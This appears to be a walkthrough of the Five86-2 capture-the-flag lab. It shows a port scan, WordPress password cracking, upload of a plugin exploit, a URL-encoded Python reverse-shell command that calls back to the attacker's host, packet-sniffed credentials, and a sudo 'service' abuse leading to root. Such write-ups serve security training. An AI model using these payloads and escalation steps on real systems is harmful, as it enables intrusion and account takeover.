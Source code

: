 # Five86-2

Lets find the IP address first of the victim machine ➡️

![Untitled](Five86-2/Untitled.png)

```bash
IP : 10.0.2.43
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Five86.2]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.43
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:36 IST
Nmap scan report for 10.0.2.43
Host is up (0.0020s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-title: Five86-2 &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:19:F4:DF (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```

## Web Enumeration ⤵️

Lets set the `/etc/hosts` file as `five86-2`.

![Untitled](Five86-2/Untitled%201.png)

Now lets run wpscan ➡️

![Untitled](Five86-2/Untitled%202.png)

got 3 users → admin , barney , stephen 

Lets find the passwords also through wpscan ⤵️

![Untitled](Five86-2/Untitled%203.png)

```bash
barney : spooky1
stephen : apollo1
```

Lets login with barney credentials →

![Untitled](Five86-2/Untitled%204.png)

Now in plugin section I found a vulnerable service lets enable it for uploading our payload ⤵️

![Untitled](Five86-2/Untitled%205.png)

Now through web I got an [exploit](https://www.exploit-db.com/exploits/46981) poc for exploiting this service →

![Untitled](Five86-2/Untitled%206.png)

So lets follow this path ⬆️

![Untitled](Five86-2/Untitled%207.png)

Now lets upload our payload →

![Untitled](Five86-2/Untitled%208.png)

Now After Inserting I got the path so lets load the url ⤵️

![Untitled](Five86-2/Untitled%209.png)

![Untitled](Five86-2/Untitled%2010.png)

As I got the command Injection so lets have a reverse shell.

```bash
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.42%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

![Untitled](Five86-2/Untitled%2011.png)

Now lets dig into the shell → 

```bash
www-data@five86-2:/home$ ls -al
ls -al
total 40
drwxr-xr-x 10 root    root    4096 Jan  9  2020 .
drwxr-xr-x 20 root    root    4096 Jan  8  2020 ..
drwx------  2 barney  barney  4096 Jan 13  2020 barney
drwx------  2 george  george  4096 Jan 13  2020 george
drwx------  2 gillian gillian 4096 Jan 13  2020 gillian
drwx------  2 john    john    4096 Jan 13  2020 john
drwx------  3 paul    paul    4096 Jan 13  2020 paul
drwx------  4 peter   peter   4096 Jan 13  2020 peter
drwx------  2 richard richard 4096 Jan 13  2020 richard
drwx------  2 stephen stephen 4096 Jan 13  2020 stephen
www-data@five86-2:
```

Now I got 8 users →

```bash
barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash
peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
john:x:1007:1007:John Lennon:/home/john:/bin/bash
george:x:1008:1008:George Harrison:/home/george:/bin/bash
```

Lets use the same wpscan passwords for switching to another users →

![Untitled](Five86-2/Untitled%2012.png)

```bash
stephen@five86-2:/$ id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```

Now lets look for the capability files ➡️

![Untitled](Five86-2/Untitled%2013.png)

So I have tcpdump Lets look for the services/files/ethernet Interface it is running to →

![Untitled](Five86-2/Untitled%2014.png)

Now lets run the tcpdump at this ⬆️`veth8d3c874` interface and capture some traffic into `cap.pcap` file →

![Untitled](Five86-2/Untitled%2015.png)

Now I got a credential for paul →

```bash
paul : esomepasswford
```

lets switch user and recon further →

```bash
paul@five86-2:~$ sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```

Now call the /bin/sh service for peter to get the peter shell ➡️

```bash
paul@five86-2:~$ sudo -u peter service ../../bin/sh
$ whoami
peter
$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd 
$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
$ su root
Password: 
root@five86-2:/# whoami
root
root@five86-2:/# id
uid=0(root) gid=0(root) groups=0(root)
root@five86-2:/# ls -al /root
total 48
drwx------  5 root root 4096 Jan 13  2020 .
drwxr-xr-x 20 root root 4096 Jan  8  2020 ..
-rw-------  1 root root 1798 Jan 13  2020 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jan  9  2020 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwxr-xr-x  3 root root 4096 Jan  8  2020 snap
drwx------  2 root root 4096 Jan  8  2020 .ssh
-rwx------  1 root root  995 Jan  9  2020 thisistheflag.txt
-rw-------  1 root root 8853 Jan 13  2020 .viminfo
```

`thisistheflag.txt` file ⤵️

```bash
root@five86-2:/# cat /root/thisistheflag.txt

__   __            _                           _                                 _ _ _ _ _ 
\ \ / /           | |                         | |                               | | | | | |
 \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)
                                                                                           
                                                                                           
Congratulations - hope you enjoyed Five86-2.

If you have any feedback, please let me know at @Five86_x

I also want to send out a big thanks to all those who help me with beta testing
of the various challenges:  @m0tl3ycr3w and @syed__umar in particular

root@five86-2:/#
```